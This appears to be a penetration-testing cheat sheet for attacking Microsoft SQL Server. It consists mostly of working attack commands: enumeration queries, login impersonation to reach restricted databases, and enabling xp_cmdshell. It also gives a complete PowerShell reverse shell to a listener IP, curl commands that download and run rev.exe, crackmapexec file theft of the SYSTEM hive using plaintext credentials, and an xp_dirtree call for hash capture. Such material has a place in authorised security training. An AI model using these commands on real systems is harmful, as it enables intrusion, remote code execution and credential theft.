 ### MSSQL Default Database
```
Master
Model
Msdb
Tempdb
```
### Queries to run 
```
# Get version
select @@version;
# Get user
select user_name();

#show database 
SELECT name FROM master..sysdatabases;

# Use database
USE master

#Get table names
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
SELECT * FROM information_schema.tables

# Get table content
> SELECT * FROM <database_name>.dbo.<table_name>
```
### If current user does not have permission o view database
Backgroup  
>SQL (HAERO\discovery  guest@master)> use hrappdb

>ERROR: Line 1: The server principal "HAERO\discovery" is not able to access the database "hrappdb" under the current security context.

Solution
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name             
--------------   
hrappdb-reader

SQL (HAERO\discovery  guest@master)> EXECUTE AS LOGIN = 'hrappdb-reader'
SQL (hrappdb-reader  guest@master)> use hrappdb
```
### Enable command execution
```
enable_xp_cmdshell;
```
```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Mssql Connection and Get Reverse Sehll
```
impacket-mssqlclient user:pass@IP
impacket-mssqlclient user:pass@IP -windows-auth

EXEC xp_cmdshell 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''10.10.77.153'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'
```
Or 
```
EXECUTE xp_cmdshell 'curl http://192.168.45.202:8000/rev.exe -o C:\Users\Public\rev.exe';
EXECUTE xp_cmdshell 'c:\users\public\rev.exe';
rlwrap nc -nlvp 4444
```
### Sql authentication vs Windows authentication
>SQL Server Authentication:

>User Credentials: Requires a username and password specific to the SQL Server database.
Authentication Process: The SQL Server validates the username and password provided by the user.
Security Implications: Typically involves storing a username and password in the application's connection string. This method is more vulnerable to security threats if credentials are not adequately protected.
Example connection string using SQL Server Authentication:

>Windows Authentication:

>User Credentials: Relies on the user's Windows credentials (username and password) without requiring a separate SQL Server username and password.
Authentication Process: The SQL Server trusts the Windows authentication process, and the user is authenticated based on their Windows login credentials.
Security Implications: Generally considered more secure as it leverages the security features of the Windows operating system. Credentials are not typically stored in connection strings.

### MSSQL Upload and Download Files
```
proxychains4 -f /etc/proxychains4.conf crackmapexec(nxc) mssql 10.10.133.148 -u sql_svc -p Dolphin1 --get-file C:\\windows.old\\Windows\\System32\\SYSTEM /home/kali/Desktop/SYSTEM
proxychains4 -f /etc/proxychains4.conf crackmapexec(nxc) mssql 10.10.133.148 -u sql_svc -p Dolphin1 --put-file nc.exe C:\\Users\\Public\\nc.exe
```
### LLMNR/NBT-NS Poisoning through Mssql
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0d89e7ee-4d0a-420b-854e-2ab67c7f3a9a)
```
EXEC xp_dirtree '\\10.10.14.31\share', 1, 1
```
